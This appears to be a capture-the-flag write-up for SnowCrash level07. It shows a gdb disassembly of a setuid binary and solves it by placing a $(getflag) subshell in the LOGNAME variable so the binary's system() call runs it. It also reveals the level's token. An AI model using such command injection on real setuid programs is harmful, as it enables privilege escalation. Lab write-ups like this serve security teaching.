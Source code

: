 Using gdb and executing `disassemble main` command you get the following output:

``` C
(gdb) disassemble main
Dump of assembler code for function main:
   0x08048514 <+0>:	push   %ebp
   0x08048515 <+1>:	mov    %esp,%ebp
   0x08048517 <+3>:	and    $0xfffffff0,%esp
   0x0804851a <+6>:	sub    $0x20,%esp
   0x0804851d <+9>:	call   0x80483f0 <getegid@plt>
   0x08048522 <+14>:	mov    %eax,0x18(%esp)
   0x08048526 <+18>:	call   0x80483e0 <geteuid@plt>
   0x0804852b <+23>:	mov    %eax,0x1c(%esp)
   0x0804852f <+27>:	mov    0x18(%esp),%eax
   0x08048533 <+31>:	mov    %eax,0x8(%esp)
   0x08048537 <+35>:	mov    0x18(%esp),%eax
   0x0804853b <+39>:	mov    %eax,0x4(%esp)
   0x0804853f <+43>:	mov    0x18(%esp),%eax
   0x08048543 <+47>:	mov    %eax,(%esp)
   0x08048546 <+50>:	call   0x8048450 <setresgid@plt>
   0x0804854b <+55>:	mov    0x1c(%esp),%eax
   0x0804854f <+59>:	mov    %eax,0x8(%esp)
   0x08048553 <+63>:	mov    0x1c(%esp),%eax
   0x08048557 <+67>:	mov    %eax,0x4(%esp)
   0x0804855b <+71>:	mov    0x1c(%esp),%eax
   0x0804855f <+75>:	mov    %eax,(%esp)
   0x08048562 <+78>:	call   0x80483d0 <setresuid@plt>
   0x08048567 <+83>:	movl   $0x0,0x14(%esp)
   0x0804856f <+91>:	movl   $0x8048680,(%esp)
   0x08048576 <+98>:	call   0x8048400 <getenv@plt>
   0x0804857b <+103>:	mov    %eax,0x8(%esp)
   0x0804857f <+107>:	movl   $0x8048688,0x4(%esp)
   0x08048587 <+115>:	lea    0x14(%esp),%eax
   0x0804858b <+119>:	mov    %eax,(%esp)
   0x0804858e <+122>:	call   0x8048440 <asprintf@plt>
   0x08048593 <+127>:	mov    0x14(%esp),%eax
   0x08048597 <+131>:	mov    %eax,(%esp)
   0x0804859a <+134>:	call   0x8048410 <system@plt>
   0x0804859f <+139>:	leave  
   0x080485a0 <+140>:	ret    
End of assembler dump.
```

The binary file only returns the current username, so it's probably taken in the call to `getenv`, and then probably executes `echo` command inside the `system` call, so changing the environment variable `LOGNAME` with a subshell which executes `getflag` solves it:

``` shell
level07@SnowCrash:~$ LOGNAME=$\(getflag\) ./level07 
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```

